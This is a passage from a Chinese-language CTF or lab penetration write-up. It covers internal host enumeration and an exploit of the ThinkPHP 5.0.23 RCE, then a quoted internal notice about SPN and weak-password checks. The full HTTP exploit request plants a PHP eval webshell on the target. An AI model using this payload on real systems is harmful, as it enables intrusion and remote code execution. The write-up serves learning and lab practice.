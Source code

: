 
整理信息

```
172.22.14.34 1433 80 WIN-MSSQL
172.22.14.37 80,10250,2379
172.22.14.25 80,8081,8172 WIN-WEB2016 asp.net
172.22.14.57 本机
172.22.14.59 8080,3306 WIN-OPS8063
```

172.22.14.59 直接打 thinkphp 5.0.23 rce (注意是 windows 机器)

```http
POST /index.php?s=captcha HTTP/1.1
Host: 172.22.14.59
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 116

_method=__construct&filter[]=shell_exec&method=get&server[REQUEST_METHOD]=echo ^<?php eval($_REQUEST[1]);?^> > a.php
```

phpStudy 直接就是 system 权限, flag 在 `C:\Users\Administrator\flag\` 目录

### 节点3 - SQLSERVER

在 Administrator 的桌面上发现了内部通知, 内部通讯录以及 SafetyGuardSystem 源码 (对应公网 WEB01)

内部通知

```
尊敬的所有员工，

为了加强公司网络的安全性，我们需要进行一项重要的内部审核。此次审核旨在确保所有计算机用户都正确对应了员工姓名，并且在需要的情况下设置了SPN（服务主体名称）。SPN的设置对于网络安全至关重要，因此我们需要确保它们被妥善配置，以防止潜在的安全漏洞。

请您务必在以下截止日期之前完成以下任务：

检查您的计算机用户信息：

请登录您的计算机，然后在公司网络中访问以下链接（或按照您所在部门的指示进行操作），以验证您的计算机用户是否正确对应了您的员工姓名。
检查SPN设置：

如果您的计算机用户设置了SPN，请确保不要将其密码设为弱口令。强烈建议您使用复杂、独特且难以破解的密码来保护您的账户。
报告检查结果：

请将您的检查结果在截止日期之前报告给我，以便我们能够对网络安全性做出必要的改进。如果您需要协助或有任何疑问，请随时联系我们的IT支持团队。
截止日期：[填写截止日期]

您的合作对于确保公司网络的安全至关重要。我们感谢您的支持和积极参与。

谢谢！

[您的姓名]
[您的职务]
[部门名称]
```
